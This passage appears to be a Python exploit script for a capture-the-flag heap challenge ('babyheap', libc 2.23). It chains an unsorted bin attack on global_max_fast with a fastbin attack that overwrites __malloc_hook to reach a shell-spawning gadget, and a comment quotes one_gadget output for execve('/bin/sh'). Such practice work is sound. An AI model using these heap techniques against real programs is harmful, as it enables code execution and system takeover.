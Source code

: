 ```python

global_max_fast=3790920+libc

#unsort bin attack
add(0x18,"A"*0x18)#6
add(0x18,"B"*0x18)#7
add(0x18,"C"*0x18)#8
add(0x18,"D"*0x18)#9
add(0x18,"D"*0x18)#10

add(0x18,"E"*0x18)#11
add(0x68,"F"*0x68)#12
edit(12,p64(0)*3+p64(0x21)) #fake next_size(for fastbin attack)
add(0x18,"G"*0x18)#13
add(0x18,"H"*0x18)#14
#add(0x18,"I"*0x18)#15

delete(7)
delete(5)

edit(6,"O"*0x18+"\x61") #1's size->0x81
#add(0x58,"AAAAAAAAAA")
add(0x58,p64(0)*3+p64(0x21)+p64(0)*3+p64(0x21)+p64(0)+p64(global_max_fast-0x10))
add(21,"AAAA")#13  #unsort bin attack

#fastbin attack

free_hook=3790760+libc
malloc_hook=3783440+libc
#one_gadget= 0xf02b0+libc
one_gadget=0x41414141

delete(14)
delete(13)
delete(12)
delete(11)
delete(10)
delete(9)
#delete(15)

add(0x18,"a"*0x18)#9
add(0x18,"b"*0x18)#10
add(0x18,"c"*0x18)#11

edit(9,"a"*0x18+"\x61")
#edit(10,"b"*0x18+"\x71")
delete(10)
#delete(11)
add(0x58,p64(0)*3+p64(0x21)+p64(0)*3+p64(0x71)+p64(malloc_hook-35))
add(0x68,"AAAA")
add(0x68,b"F"*19+p64(one_gadget))

add(0x18,"PWN")


p.interactive()


'''
root@59b9934cad24:/ctf/work/babyheap# one_gadget -l1 libc-2.23.so 
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
      rax == NULL
```